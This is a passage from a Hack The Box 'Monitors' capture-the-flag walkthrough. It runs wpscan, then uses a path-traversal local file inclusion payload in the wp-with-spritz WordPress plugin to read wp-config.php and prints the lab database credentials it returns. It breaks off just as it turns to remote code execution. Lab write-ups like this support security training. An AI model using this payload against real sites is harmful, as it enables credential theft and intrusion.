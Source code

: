 Let's run wpscan on it.

```java
┌─[R4hn1]─[10.10.14.12]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Monitors]
└────╼ # wpscan --url http://monitors.htb/ -e ap --plugins-detection aggressive --plugins-version-detection aggressive
```

![](Images/Pasted%20image%2020210628092251.png)

```bash
Exploit : 
https://www.exploit-db.com/exploits/44544
```
![](Images/Pasted%20image%2020210628092418.png)

Website is vulnerable to LFI.

```bash
view-source:http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//var/www/wordpress/wp-config.php
```

```sql
/** MySQL database username */
define( 'DB_USER', 'wpadmin' );
/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

Its time to convert LFI to RCE.
